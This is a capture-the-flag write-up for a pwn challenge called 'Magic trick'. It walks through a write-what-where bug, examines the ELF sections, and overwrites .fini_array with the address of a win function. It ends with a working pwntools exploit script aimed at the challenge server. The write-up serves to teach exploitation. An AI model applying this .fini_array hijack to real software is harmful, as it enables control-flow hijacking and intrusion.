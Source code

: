 # Magic trick

In this challenge you are provided with a single binary, `magic_trick`, and a link to a server running this binary.

Running the binary, you get the following output (with my input being 1234 and 4321):
```
$ ./magic_trick
How about a magic trick?

What do you want to write
1234
Where do you want to write it
4321
thanks
Segmentation fault
```

Opening up r2, and looking at `main`, it prints a prompt then runs `magic`, which seems to be a write-what-where primitive. There is also a `win` function that runs `system('cat flag.txt')`.

My first thought was to overwrite an entry in the Global Offset Table, maybe for `puts()`, but it seems that the only function potentially run after the writing is done is `__stack_chk_fail`, and if we destroy the canary then that will be our write wasted.

So, we need to find somewhere else to write. First, lets look for some read-write segments in our ELF:
```
Sections:
Idx Name          Size      VMA               LMA               File off  Algn
  0 .interp       0000001c  0000000000400200  0000000000400200  00000200  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  1 .note.ABI-tag 00000020  000000000040021c  000000000040021c  0000021c  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  2 .note.gnu.build-id 00000024  000000000040023c  000000000040023c  0000023c  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  ...
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 17 .init_array   00000008  00000000006009f8  00000000006009f8  000009f8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 18 .fini_array   00000008  0000000000600a00  0000000000600a00  00000a00  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 19 .dynamic      000001d0  0000000000600a08  0000000000600a08  00000a08  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 20 .got          00000010  0000000000600bd8  0000000000600bd8  00000bd8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 21 .got.plt      00000048  0000000000600be8  0000000000600be8  00000be8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 22 .data         00000010  0000000000600c30  0000000000600c30  00000c30  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00000008  0000000000600c40  0000000000600c40  00000c40  2**0
                  ALLOC
 24 .comment      00000029  0000000000000000  0000000000000000  00000c40  2**0
                  CONTENTS, READONLY
```

Looking through the output of `objdump -x magic_trick`, we have 7 writable segments, with one particularly of interest:
- `.fini_array`: an array of things to run during a program's exit, read by `_fini`

This is a perfect place to put the address of the `win` function.


So, we want to write the address of the `win` function to `.fini_array`. A quick run of Radare2 gets us addresses `0x600a00` for `.fini_array` and `0x400667` for `win`. Now, we can construct a small solve script:

```python
from pwn import *

win = 0x400667
fini = 0x600a00

p = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

# What are we writing?
p.recvuntil("write\n")
p.sendline(str(win))
# Where are we writing it to?
p.recvuntil("write it\n")
p.sendline(str(fini))
p.interactive()
```
